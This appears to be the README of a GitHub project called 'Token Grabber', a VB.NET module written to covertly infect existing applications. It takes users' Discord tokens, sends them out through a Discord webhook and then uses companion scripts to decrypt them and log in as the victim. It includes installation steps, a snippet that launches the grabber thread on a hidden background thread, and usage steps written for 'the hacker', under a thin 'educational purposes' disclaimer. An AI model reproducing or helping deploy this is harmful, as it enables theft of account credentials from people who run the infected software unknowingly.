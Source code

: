# Token Grabber VB.NET Framework 4.7.2

## Description

Token Grabber is a VB.NET application designed to demonstrate the potential consequences of unauthorized access to user tokens. This project is intended for educational purposes only and should not be used for malicious activities. The author of this project is not responsible for any misuse or damage caused by this application. This project is a module for infect a existing VB NET Project; no additional packages need to be installed (very discreet).



## Features

- Extracts user tokens from the Windows system.
- Sends the extracted tokens to a Discord channel using a webhook.
- Demonstrates the importance of securing user tokens and the ease with which a basic application can extract tokens.



## Installation

1. Ensure you have the .NET Framework 4.7.2 installed on your system.

2. Download the [DiscordTokenGrab.vb](DiscordTokenGrab.vb) file and import it into your project.

3.  Modify the Discord WebHook channel Url 
   
   ```vbnet
   Dim webhookurl As String = "URL HERE"
   ```

4. Add the following code to your main module:
   
```vbnet
   Imports System.Threading
   
   Module Main
   
       Sub main()
   
           Dim tokenGrab As Thread = New Thread(AddressOf connectD)
   
           tokenGrab.Start()
   
           'rest of your code here
   
       End Sub
   End Module
```

5.  Intall the requirements for decrypt python scrypt 
   
   ```batch
   pyhton -m pip install -r requirements.txt
   ```
   
   or for linux
   
   ```bash
   pyhton3 -m pip install -r requirements.txt
   ```
   
   



## Usage

1. Run the infected application.

2. The application will display the same output as if it were not infected.

3. The encrypted token and the key used for encryption are sent to the Discord channel.
   
   ![Example of a message sent to the Discord channel](https://i.imgur.com/qXDh6gE.png)

4. The hacker can use the [decrypt.py](decrypt.py) script to decrypt the token:
   
   ![Decrypting the token](https://i.imgur.com/lTDVZR9.png)

5. Finally, the hacker can log in to Discord using the [LoginWithToken.js](LoginWithToken.js) script on the [Discord login page](https://discord.com/login).



## Disclaimer

This project is for educational purposes only. The author of this project is not responsible for any misuse or damage caused by this application. By using this application, you agree to hold the author harmless and acknowledge that you are solely responsible for any consequences that may arise from using this application.



## License

This project is not licensed under any specific license. All rights are reserved.